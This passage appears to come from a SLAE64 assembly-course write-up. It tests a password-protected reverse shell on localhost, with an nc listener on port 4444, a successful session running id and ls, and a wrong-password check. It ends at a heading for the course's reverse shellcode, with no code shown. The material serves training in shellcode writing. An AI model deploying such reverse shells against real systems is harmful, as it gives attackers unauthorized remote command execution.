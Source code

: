 We test the Reverse Shell by creating a listener on port `4444` with `nc` in one terminal window and in another we execute the executable `reverse`. Then, back to the first we verify the incoming connection, provide the passcode: `Password` and execute the commands `id` and `ls`.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ nc -lvnp 4444
```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ ./reverse

```

1<sup>st</sup> window again:

```shell
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 46224)
Password
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
reverse
reverse-c
reverse-c.c
reverse-shellcode-course
reverse-shellcode-course.nasm
reverse-shellcode-course.o
reverse.nasm
reverse.o
reverse.py
exit
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$
```

Now we can check that with a wrong passcode the program is terminated. We execute again `reverse` and listen with `nc`. The program is indeed terminated.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 46226)
WrongPassword
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$
```

## Reverse Shellcode {#reverse-shellcode} 

The initial version of the Reverse Shellcode of the course, which contained nullbytes, is the following:

